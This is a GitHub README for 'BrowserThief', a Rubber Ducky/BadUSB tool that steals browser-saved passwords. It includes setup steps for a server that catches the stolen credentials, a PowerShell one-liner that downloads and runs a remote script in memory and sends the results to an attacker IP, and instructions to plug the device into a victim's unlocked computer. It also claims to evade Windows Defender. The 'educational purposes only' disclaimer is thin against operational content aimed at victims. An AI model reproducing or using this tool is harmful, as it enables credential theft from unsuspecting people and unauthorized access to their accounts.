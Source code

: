 # BrowserThief
Rubber Ducky/BadUSB that runs a powershell script to extract and steal browser-saved passwords and stash them at your Flask web server. 
<br/><br/>
## Features
- The powershell script can be run in-memory without writing to disk which evades Windows Defender detection
- Includes an arduino RubberDucky script that runs in less than 2 seconds
<br/><br/>
## Setup

- Setup the web server that catches the passwords

```console
foo@bar:~$ sudo apt install docker.io
```

```console
foo@bar:~$ git clone https://github.com/ScribblerCoder/BrowserThief
```

```console
foo@bar:~$ cd BrowserThief/Web
```

```console
foo@bar:~$ sudo bash build-docker.sh
```
<br/><br/>
## Instructions

-  To simply run the powershell script 
```powershell
iex (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/ScribblerCoder/BrowserThief/main/BrowserThief.ps1');pumpndump -hq http://<Your-IP>:1337;exit
```
- Or you can use the rubber ducky for stealth/speed
	- Needs an Arduino that supports `<Keyboard.h>` (Nano, Leonardo)
	- Install Arduino IDE from their [website](https://wiki-content.arduino.cc/en/software)
	- Open `RubberDuckyScript.ino` using the IDE and replace `https://dump.silvercryptor.xyz` with your IP, check out [Setup](https://github.com/ScribblerCoder/BrowserThief#Setup) to setup the Web server
	- Compile and upload the script to the arduino
	- Insert the usb to the victim's computer (needs to be unlocked)
	- Profit 💰💰💰
<br/><br/>
## PoC

### Client POV

<p align="center">
<img src="test/victim.gif?raw=true" width="800">
</p>


<br/><br/>

## Credits

This project wouldn't exist without the guidance of these examples 

* https://github.com/thisismyrobot/chrome-decrypt.ps1
* https://github.com/ohyicong/decrypt-chrome-passwords
* https://github.com/p0z/CPD
* https://github.com/ValterBricca/SQLite.Net-PCL
* https://github.com/ericsink/SQLitePCL.raw
* https://github.com/byt3bl33d3r/chrome-decrypter
* https://github.com/agentzex/chrome_v80_password_grabber
* https://github.com/0xfd3/Chrome-Password-Recovery 

## Disclaimer

This is for educational purposes only. I bear no responsiblity for misuses of this project

